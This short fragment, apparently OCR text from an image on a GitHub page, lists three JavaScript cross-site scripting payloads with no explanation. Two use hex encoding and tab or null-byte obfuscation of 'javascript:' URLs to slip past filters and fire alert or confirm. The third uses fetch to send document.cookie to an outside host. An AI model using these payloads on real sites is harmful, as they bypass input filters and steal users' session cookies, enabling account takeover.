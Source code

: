 - location.href = /javascript:%27\x3c\x73\x76\x67\x2f\x6f\x6e\x6c\x6f\x61\x64\x3d\x61\x6c\x65\x72\x74\x28\x31\x29\x3e%27/.source;
- window.location = decodeURIComponent\`%00Jav%09asc%09ript:https://domain.com/%250Aconfirm%25281%2529)`
- fetch(/\blue.exeye.io/+document.cookie)
